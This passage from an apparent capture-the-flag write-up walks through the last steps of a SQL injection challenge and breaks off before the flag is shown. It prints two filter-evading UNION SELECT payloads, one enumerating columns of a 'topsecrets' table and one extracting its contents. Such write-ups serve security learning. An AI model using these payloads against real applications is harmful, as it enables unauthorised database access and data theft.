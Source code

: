 ![get tables](./SQLi2_get_tables.png)

The table `topsecrets` is very likely to contain the flag.

4. **Extract Column Names**:
Then use

`'UnIoN/**/SeLeCt/**/1,column_name/**/FrOm/**/information_schema.columns/**/WhErE/**/table_name='topsecrets'--`to get the column names:

![get columns](./SQLi2_get_columns.png)

The column `value` may contain the flag.

5. **Extract Flag**:
Finally, use
`'UnIoN/**/SeLeCt/**/1,value/**/FrOm/**/topsecrets--` to get the flag:
